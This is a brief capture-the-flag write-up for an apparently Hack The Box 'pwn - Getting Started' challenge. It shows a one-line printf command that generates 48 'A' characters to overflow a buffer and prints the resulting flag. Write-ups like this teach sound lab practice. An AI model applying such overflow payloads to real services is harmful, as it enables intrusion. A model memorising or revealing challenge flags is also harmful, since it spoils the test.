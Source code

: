 # pwn - Getting Started

So we get to overflow the first 32 bytes implementing what we have learned in the previous challenges

![Untitled](pwn%20-%20Getting%20Started%20af23091ea3904779b5b866c1e7eb84a8/Untitled.png)

So lets’ give it a go

We use the command from before to create a payload and overflow the requested buffer

`printf 'A%.0s' {1..48}`

We send the request and we get the flag back

![Untitled](pwn%20-%20Getting%20Started%20af23091ea3904779b5b866c1e7eb84a8/Untitled%201.png)

### flag: HTB{b0f_s33m5_3z_r1ght?}